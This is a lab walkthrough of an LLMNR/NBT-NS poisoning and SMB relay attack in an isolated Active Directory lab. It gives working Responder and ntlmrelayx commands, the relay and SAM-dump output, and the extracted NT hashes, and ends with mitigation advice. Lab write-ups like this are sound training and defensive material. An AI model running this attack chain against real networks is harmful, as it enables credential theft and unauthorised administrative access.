








# SMB Relay Attack — LLMNR/NBT-NS Poisoning to SAM Dump

> **Lab scope:** `evil.corp` Active Directory lab  
> **Purpose:** Demonstrate LLMNR/NBT-NS poisoning, NTLM authentication interception, SMB relay, and local SAM extraction against a deliberately vulnerable Windows workstation.

---

## 1. Attack Overview

This attack demonstrates how an attacker can abuse legacy Windows name-resolution protocols to induce an NTLM authentication, relay that authentication to another SMB host, and—when the relayed identity has sufficient administrative privileges on the target—extract the target's local SAM hashes.

### Lab topology

| Host | IP | Role |
|---|---:|---|
| Attacker | `192.168.56.1` | Responder + ntlmrelayx |
| DC1 | `192.168.56.10` | Domain Controller / DNS |
| CYDECK | `192.168.56.30` | Victim generating NTLM authentication |
| CTO | `192.168.56.20` | SMB relay target |

The relevant authentication path is:

```text
CYDECK (192.168.56.30)
    |
    | LLMNR / NBT-NS request
    v
Responder (192.168.56.1)
    |
    | NTLM authentication
    v
ntlmrelayx (192.168.56.1)
    |
    | SMB relay
    v
CTO (192.168.56.20)
    |
    | RemoteRegistry + SAM extraction
    v
Local SAM hashes
```

The important distinction is that **Responder performs the poisoning**, while **ntlmrelayx receives the authentication and relays it**. Responder's SMB server must therefore remain disabled so it does not compete with ntlmrelayx for TCP/445.

---

## 2. Why SMB Relay Works

### 2.1 LLMNR/NBT-NS name resolution

Windows environments may fall back to protocols such as:

- LLMNR — Link-Local Multicast Name Resolution
- NBT-NS — NetBIOS Name Service
- mDNS — Multicast DNS

when a hostname cannot be resolved through normal DNS.

For example, a workstation may request:

```text
Where is FILESERVER?
```

If the legitimate DNS infrastructure does not answer, an attacker on the local network can respond to the request.

### 2.2 Poisoning

Responder answers the request and supplies the attacker's IP address for the requested name:

```text
FILESERVER -> 192.168.56.1
```

The victim therefore attempts to establish the SMB connection with the attacker.

### 2.3 NTLM authentication

When Windows connects to an SMB service, it may automatically attempt Windows authentication.

The victim's NTLM authentication is consequently sent toward the attacker's listener.

### 2.4 Relay

Instead of simply capturing the NTLM exchange for offline cracking, `ntlmrelayx` forwards the authentication to a chosen SMB target.

In this lab:

```text
EVIL\ggideon @ CYDECK
          |
          | NTLM authentication
          v
     ntlmrelayx
          |
          | relay
          v
CTO (192.168.56.20)
```

If the target accepts the authentication and the relayed identity has the required administrative privileges, ntlmrelayx can perform actions against the target.

---

## 3. Verify the Relay Target

Before starting the attack, SMB signing on the **actual relay target** matters.

The lab target is:

```text
192.168.56.20
```

SMB signing should be **enabled but not required** for a classic SMB relay scenario.

A useful verification command is:

```bash
nmap -Pn -p445 --script smb2-security-mode 192.168.56.20
```

The correct scan of CTO produced:

```text
Host is up.

445/tcp open microsoft-ds

Host script results:
| smb2-security-mode:
|   3:1:1:
|     Message signing enabled but not required
```

This confirms that CTO's SMB signing configuration is compatible with the relay scenario.



> **Important:** The earlier scan against `192.168.56.10` (DC1) showed `Message signing enabled and required`. That was the Domain Controller, not the relay target, so it should not be used as evidence for the relayability of CTO.

---

## 4. Start ntlmrelayx

The relay listener was started against CTO:

```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

or, when using a target file:

```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

For the SAM extraction stage:

```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support --sam
```

The important options are:

| Option | Purpose |
|---|---|
| `-t` | Specify a single relay target |
| `-tf` | Read relay targets from a file |
| `-smb2support` | Enable SMB2 support |
| `--sam` | Attempt local SAM extraction after successful relay |

When started correctly, ntlmrelayx creates its SMB listener on TCP/445:

```text
[*] Setting up SMB Server on port 445
[*] Servers started, waiting for connections
```



### Why ntlmrelayx must own port 445

For SMB relay, the victim must authenticate to ntlmrelayx.

Therefore:

```text
TCP/445 -> ntlmrelayx
```

Responder's SMB server should be:

```text
SMB server [OFF]
```

Otherwise another SMB service can receive the connection instead of ntlmrelayx.

---

## 5. Start Responder

Responder was started on the attacker interface:

```bash
sudo responder -I <lab-interface> -v
```

In the VirtualBox-based lab, the relevant interface is the interface associated with the `192.168.56.0/24` host-only network.

The important configuration is:

```text
LLMNR       [ON]
NBT-NS      [ON]
MDNS        [ON]

HTTP server [OFF]
SMB server  [OFF]
```

The poisoning protocols remain enabled, while the SMB server is disabled because ntlmrelayx is responsible for receiving the SMB authentication.



### Why SMB is OFF in Responder

There are two possible workflows:

**Credential capture:**

```text
Responder
    |
    └── captures Net-NTLMv2
```

**SMB relay:**

```text
Responder
    |
    └── poisons name resolution

ntlmrelayx
    |
    └── receives and relays NTLM
```

This walkthrough uses the second workflow.

---

## 6. Trigger the Authentication from CYDECK

The victim machine is:

```text
CYDECK
192.168.56.30
EVIL\ggideon
```

A connection was initiated to a deliberately nonexistent/random SMB hostname:

```text
\\fileserver\share
```

The purpose is not to access a real file server. The purpose is to cause CYDECK to perform name resolution for `fileserver`.



Because the legitimate name-resolution mechanisms do not resolve the requested host, the request can fall back to LLMNR/NBT-NS/mDNS.

---

## 7. Responder Poisons the Request

Responder receives the request and answers with the attacker's IP address.

Typical events observed in the lab included:

```text
[LLMNR] Poisoned answer sent to 192.168.56.30 for name fileserver

[NBT-NS] Poisoned answer sent to 192.168.56.30
for name FILESERVER (service: File Server)

[MDNS] Poisoned answer sent to 192.168.56.30
for name fileserver.local
```

This means the poisoning stage is functioning.

The victim receives the spoofed name-resolution response and therefore attempts to establish the SMB connection with `192.168.56.1`.



---

## 8. ntlmrelayx Receives the NTLM Authentication

After the poisoned response, CYDECK connects to the attacker.

ntlmrelayx reports:

```text
(SMB): Received connection from EVIL/ggideon at CYDECK,
connection will be relayed after re-authentication
```

This is the key transition:

```text
LLMNR/NBT-NS poisoning
          |
          v
Victim authentication
          |
          v
ntlmrelayx receives NTLM
```



At this point, there is **no requirement for a Net-NTLMv2 hash to appear as a captured credential**. This is a relay workflow. The authentication is being forwarded to the target rather than simply stored for offline cracking.

---

## 9. Successful SMB Relay

The successful relay is visible in the ntlmrelayx output:

```text
(SMB): Received connection from 192.168.56.30,
attacking target smb://192.168.56.20

(SMB): Authenticating connection from
EVIL/GGIDEON@192.168.56.30
against smb://192.168.56.20 SUCCEED [1]
```

This establishes that:

1. CYDECK authenticated to the attacker.
2. ntlmrelayx received that authentication.
3. ntlmrelayx relayed it to CTO.
4. CTO accepted the authentication.



---

## 10. Why `All targets processed` Appeared

During testing, messages such as:

```text
All targets processed!
```

and:

```text
Connection from 192.168.56.30 controlled,
but there are no more targets left!
```

were observed.

This occurs because the configured relay target had already been processed.

For a clean repeatable test, restart ntlmrelayx with the intended target before generating another authentication attempt.

This is **not a failure of LLMNR/NBT-NS poisoning**. The earlier logs already showed that the victim authentication was reaching ntlmrelayx.

---

## 11. SAM Extraction

The successful relay was then used for local SAM extraction.

The relevant ntlmrelayx output was:

```text
Service RemoteRegistry is in stopped state
Service RemoteRegistry is disabled, enabling it
Starting service RemoteRegistry

Target system bootKey: ...

Dumping local SAM hashes
```

ntlmrelayx temporarily enabled/started the `RemoteRegistry` service to access the required registry data, obtained the system boot key, and extracted the local SAM database.

It subsequently restored the service state:

```text
Done dumping SAM hashes for host: 192.168.56.20
Stopping service RemoteRegistry
Restoring the disabled state for service RemoteRegistry
```



### Why SAM extraction was possible

The SAM extraction was possible because the relayed `EVIL\ggideon` identity had local administrative privileges on CTO.

SMB relay alone does **not** automatically provide access to the target's SAM database. The relayed account must have sufficient privileges on the target for the requested post-relay operation.

---

## 12. Captured SAM Hashes

The resulting entries followed the standard SAM representation:

```text
username:RID:LMHash:NTHash:::
```

The lab output included:

```text
Administrator:500:...:31d6cfe0d16ae931b73c59d7e0c089c0:::

Guest:501:...:31d6cfe0d16ae931b73c59d7e0c089c0:::

DefaultAccount:503:...:31d6cfe0d16ae931b73c59d7e0c089c0:::

WDAGUtilityAccount:504:...:04d39cfd6fe1985b3b6eac1f7a3157ae:::

tyrell:1001:...:04c73b898b104732d504074fe7c376dd:::
```

The fourth field is the NT hash.

For example:

```text
tyrell:1001:<LM hash>:04c73b898b104732d504074fe7c376dd:::
```

Therefore:

```text
Account: tyrell
RID:     1001
NT hash: 04c73b898b104732d504074fe7c376dd
```


### Why several accounts show the same NT hash

The value:

```text
31d6cfe0d16ae931b73c59d7e0c089c0
```

is the standard NT hash associated with an empty password and is commonly seen for disabled/default local accounts in SAM output.

The `tyrell` entry is a custom local account present on the target workstation.

---

## 13. What Was Actually Achieved

The complete attack chain was:

```text
                  CYDECK
              192.168.56.30
               EVIL\ggideon
                     |
                     | 1. Name-resolution request
                     v
              LLMNR / NBT-NS
                     |
                     | 2. Poisoned response
                     v
              Attacker .1
              192.168.56.1
                     |
              +------+------+
              |             |
         Responder      ntlmrelayx
         poisoning       SMB :445
              |             |
              +------>-----+
                     |
                     | 3. Relay NTLM
                     v
                  CTO
             192.168.56.20
                     |
                     | 4. Administrative access
                     |
                     | 5. SAM extraction
                     v
              Local SAM hashes
```

### Attack stages

| Stage | Result |
|---|---|
| LLMNR poisoning | Successful |
| NBT-NS poisoning | Successful |
| Victim NTLM authentication | Successful |
| ntlmrelayx reception | Successful |
| SMB relay to CTO | Successful |
| Target authentication | Successful |
| RemoteRegistry interaction | Successful |
| SAM extraction | Successful |
| Local NTLM hashes obtained | Successful |

---

## 14. Why the Attack Was Possible

The lab intentionally combines several conditions that make this attack possible:

### 14.1 LLMNR/NBT-NS enabled

These protocols allow local name-resolution requests to be answered by an unauthorized machine.

### 14.2 NTLM authentication available

The Windows victim automatically attempted NTLM authentication when connecting to the poisoned SMB endpoint.

### 14.3 SMB relay target accepts the authentication

The target's SMB signing configuration permits the NTLM authentication to be relayed.

### 14.4 Relayed account has administrative privileges

`EVIL\ggideon` was configured with local administrative privileges on CTO.

This is important because merely relaying a normal user's authentication does not automatically provide access to the target's SAM database.

### 14.5 RemoteRegistry can be used for SAM extraction

ntlmrelayx was able to temporarily enable and use the `RemoteRegistry` service during the extraction process.

---

## 15. Troubleshooting Observations From This Attack

### Responder showed many poisoned answers but ntlmrelayx showed nothing

This happens when poisoning succeeds but the victim's connection does not reach the ntlmrelayx SMB listener.

For SMB relay:

```text
Responder SMB = OFF
ntlmrelayx SMB = ON
TCP/445 = ntlmrelayx
```

### Windows displayed an SMB1 error

The Windows client previously displayed:

```text
This share requires the obsolete SMB1 protocol
```

The relevant issue was that the SMB endpoint being reached was not the intended SMB2-capable relay listener.

For this attack, SMB1 should remain disabled on modern Windows. The correct architecture is for ntlmrelayx to receive the SMB connection.

### ntlmrelayx showed `no more targets left`

This indicated that the configured relay target had already been processed. Restarting ntlmrelayx resets the target state for a new lab run.

### SAM hashes were not initially visible

SMB relay does not inherently mean "print a password hash."

There are two different workflows:

```text
NTLM capture:
Victim -> Responder -> Net-NTLMv2 response

SMB relay:
Victim -> ntlmrelayx -> Target
                         |
                         +-> SAM extraction (when authorized/possible)
```

The SAM hashes appeared only after the successful relay was used for the SAM extraction stage.

### Connection reset during repeated attempts

During repeated authentication attempts, a `ConnectionResetError` was observed after the relay target had already been processed. This occurred during subsequent connections and did not invalidate the successful relay/SAM extraction demonstrated above.

---

## 16. Attack Summary

The important lesson from this exercise is that **SMB relay is not simply a hash-capture attack**.

The attacker abused weak name-resolution behavior to redirect a Windows authentication:

```text
LLMNR/NBT-NS
     ↓
Responder poisoning
     ↓
NTLM authentication
     ↓
ntlmrelayx
     ↓
SMB relay
     ↓
Administrative access
     ↓
SAM extraction
```

The result was the extraction of local Windows NTLM password hashes from the relay target.

The attack demonstrates why organizations should:

- Disable LLMNR where possible.
- Disable or restrict NBT-NS where possible.
- Prefer Kerberos over NTLM.
- Require SMB signing where appropriate.
- Avoid unnecessary local administrator privileges.
- Restrict administrative access between workstations.
- Monitor unusual NTLM authentication and SMB activity.
- Protect and audit privileged accounts.

---

## 17. Attack Validation

The successful run can be validated from the ntlmrelayx output:

```text
(SMB): Received connection from 192.168.56.30,
attacking target smb://192.168.56.20

(SMB): Authenticating connection from
EVIL/GGIDEON@192.168.56.30
against smb://192.168.56.20 SUCCEED [1]

Target system bootKey: ...

Dumping local SAM hashes

Done dumping SAM hashes for host: 192.168.56.20
```

This provides evidence for the complete attack path:

```text
CYDECK
  ↓
LLMNR/NBT-NS poisoning
  ↓
NTLM authentication
  ↓
ntlmrelayx
  ↓
CTO
  ↓
SAM extraction
```

No separate Metasploit/PsExec execution is included in this walkthrough because that was a separate authenticated execution test rather than part of the demonstrated SMB relay → SAM extraction chain.

---

## References

- Impacket `ntlmrelayx` — SMB relay functionality.
- Responder — LLMNR/NBT-NS/mDNS poisoning and credential interception.
- Microsoft SMB security guidance — SMB signing and NTLM security controls.
